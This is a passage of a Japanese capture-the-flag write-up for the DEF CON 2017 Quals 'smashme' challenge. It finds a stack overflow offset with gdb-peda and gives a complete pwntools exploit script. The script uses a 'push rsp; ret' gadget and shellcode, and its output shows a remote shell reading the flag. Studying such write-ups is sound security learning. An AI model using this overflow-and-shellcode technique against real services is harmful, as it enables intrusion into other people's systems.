 
  この `sub.ifunc_4253b0_320` がよくわからない[^1]ので gdb で処理を追ってみたところ, [`strstr`](http://en.cppreference.com/w/c/string/byte/strstr) に飛ぶことがわかった. `strstr` は第1引数に渡した文字列に第2引数引数に渡した文字列が含まれていたらその先頭文字のアドレスを, そうでなければ `NULL` を返す関数らしい. ということは, `call` される直前で `rsi` (第2引数) に設定されている `"Smash me outside, how bout dAAAAAAAAAAA"` で始まる文字列を入力すればよさそう.

[^1]: これの一種かな? [Function Attributes - Using the GNU Compiler Collection (GCC)](https://gcc.gnu.org/onlinedocs/gcc-5.4.0/gcc/Function-Attributes.html)

gdb-peda の `pattc`, `patto` コマンドを使って調べると, 入力した文字列とリターンアドレスとののオフセットは↑の文字列+33文字なのがわかった.

    gdb-peda$ c
    Continuing.
    Welcome to the Dr. Phil Show. Wanna smash?
    Smash me outside, how bout dAAAAAAAAAAAAAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbA

    ...

    Stopped reason: SIGSEGV
    0x0000000000400a0f in main ()
    gdb-peda$ x/gx $rsp
    0x7fffffffdf48:	0x4161414145414129
    gdb-peda$ patto 0x4161414145414129
    4711118433796833577 found at offset: 33

そこで, その文字列のうしろに `0x0044611d: push rsp ; ret  ;  (2 found)` と shellcode をくっつけてみたところシェルを取ることができた. 作成したスクリプトと実行結果は次の通り.

```python
#!/usr/bin/env python2

# DEF CON 2017 Quals : smashme

from pwn import *
import sys

addr_push_rsp_ret = 0x0044611d # 0x0044611d: push rsp ; ret  ;  (2 found)

context(os='linux', arch='amd64')

if 'remote' in sys.argv:
    r = remote('smashme_omgbabysfirst.quals.shallweplayaga.me', 57348)
else:
    r = process('./smashme')

r.recvuntil('Welcome to the Dr. Phil Show. Wanna smash?\n')
buf = ''
buf += 'Smash me outside, how bout dAAAAAAAAAAA'
buf += 'A' * 33
buf += p64(addr_push_rsp_ret)
buf += asm(shellcraft.sh())
r.sendline(buf)

r.interactive()
```

    $ ./exploit.py remote
    [+] Opening connection to smashme_omgbabysfirst.quals.shallweplayaga.me on port 57348: Done
    [*] Switching to interactive mode
    $ ls
    flag
    smashme
    $ cat flag
    The flag is: You must be at least this tall to play DEF CON CTF 5b43e02608d66dca6144aaec956ec68d
    $ 
    [*] Closed connection to smashme_omgbabysfirst.quals.shallweplayaga.me port 57348
